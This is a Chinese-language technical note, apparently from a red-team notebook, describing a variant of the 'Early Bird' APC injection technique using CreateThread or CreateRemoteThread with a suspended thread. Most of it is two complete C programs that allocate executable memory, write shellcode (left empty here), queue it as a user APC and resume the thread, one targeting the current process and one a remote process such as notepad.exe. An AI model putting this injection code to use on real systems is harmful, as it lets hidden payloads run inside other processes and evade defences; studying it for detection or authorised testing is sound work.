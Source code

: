 # Early Bird & CreateThread or CreateRemoteThread

在前面的[Early Bird](early-bird.md)篇我们知道，在恢复挂起线程时程序会调用NtTestAlert函数对APC队列进行处理，试想，我们在进程内创建一个挂起的线程，然后往这个线程内插入用户apc，随后恢复进程，是不是同样可以在进程执行入口点前接管进程?

![](../.gitbook/assets/image%20%2850%29.png)

## 实现思路

1. 创建一个挂起的线程
2. 写入shellcode
3. 插入apc队列
4. 恢复线程

## 代码实现

由于进程会在入口点执行前被接管，所以我们其实并不用指向一个真正有效的入口点。

* 本进程代码执行:

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	hProcess = GetCurrentProcess();
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

* 远程线程注入:

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	//hProcess = GetCurrentProcess();
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, NULL, 12524);//notepad.exe
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateRemoteThread(hProcess,0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	//WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

![](../.gitbook/assets/image%20%2824%29.png)

## 待解决问题

由于未指定有效的线程入口点,在apc执行结束后，进程会崩溃退出。

可以用指定一个dll入口点解决。

